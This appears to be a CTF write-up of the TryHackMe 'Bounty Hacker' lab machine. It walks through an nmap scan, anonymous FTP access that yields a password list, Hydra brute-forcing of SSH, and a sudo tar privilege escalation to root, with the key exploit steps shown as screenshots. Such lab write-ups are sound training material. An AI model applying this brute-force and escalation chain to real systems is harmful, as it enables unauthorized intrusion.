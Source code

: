 
---
title: THM Bounty Hacker
date: 2020-08-17 16:54:00 +/-TTTT
categories: [CTF Walkthrough, Pen Test]
tags: [ctf, thm]     # TAG names should always be lowercase
---

# Information Gathering
### Nmap
```
adam@harambe:~$ nmap -sVC -v 10.10.219.20
```
```
PORT      STATE  SERVICE         REASON       VERSION
21/tcp    open   ftp             syn-ack      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.11.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh             syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
|   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
80/tcp    open   http            syn-ack      Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
From the above output we learn that ports **21**, **22**, and **80** are open. FTP being open is the first thing I noticed, and more importantly, that anonymous login is allowed. Let's go check it out.

# FTP

![alt text](https://i.imgur.com/FWnPcYL.png)

There are two .txt files being hosted on the ftp server:
**locks.txt** - contains a list of complex passwords.
**task.txt** - contains arbitrary tasks, but is signed by Lin (username)
With these two pieces of information it is now possible to attempt to bruteforce the ssh login.

# SSH
### Hydra
![alt text](https://i.imgur.com/wDSgYZ1.png)
Using the username and password list with hydra confirms valid SSH credentials to gain an initial foothold. 
# User Flag

```
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7 17:06 .
drwxr-xr-x 19 lin lin 4096 Jun  7 22:17 ..
-rw-rw-r--  1 lin lin   21 Jun  7 17:06 user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{REDACTED}
```
First flag found just like that. Now, at this point there's many ways to start poking around to see how you are going to **escalate your privileges**. Since I have the current user's password, I like to check their **sudo permissions**. 

### Priv Esc:
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
I know that the tar binary has a sudo priv esc over at [GTFOBins](https://gtfobins.github.io/)
![alt text](https://i.imgur.com/A9UEJAD.png)
ez one-liner ftw??
![alt text](https://i.imgur.com/TEz5F6j.png)
Yup
# Root Flag
Only one thing left to do so let's check the usual location of the flag.
```
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls -la
total 40
drwx------  5 root root 4096 Jun  7 21:31 .
drwxr-xr-x 24 root root 4096 Jun  6 06:36 ..
-rw-------  1 root root 2694 Jun  7 22:25 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7 15:00 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7 17:16 root.txt
-rw-r--r--  1 root root   66 Jun  7 21:13 .selected_editor
drwx------  2 root root 4096 Jun  7 19:29 .ssh
root@bountyhacker:/root# cat root.txt
THM{*REDACTED*}
```

That's it, machine rooted. 